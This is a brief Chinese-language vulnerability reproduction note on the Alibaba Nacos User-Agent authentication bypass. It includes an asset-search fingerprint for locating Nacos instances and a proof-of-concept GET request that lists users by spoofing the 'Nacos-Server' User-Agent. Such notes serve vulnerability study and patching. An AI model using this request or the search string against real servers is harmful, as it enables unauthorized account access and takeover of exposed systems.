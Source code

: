 # Alibaba Nacos user 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Alibaba Nacos </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7.png)

验证POC

```javascript
GET /nacos/v1/auth/users?pageNo=1&pageSize=9
User-Agent: Nacos-Server
```

![img](../../../.vuepress/public/img/1679979333660-14aa3d9c-2581-48a4-b482-27912d98f75d.png)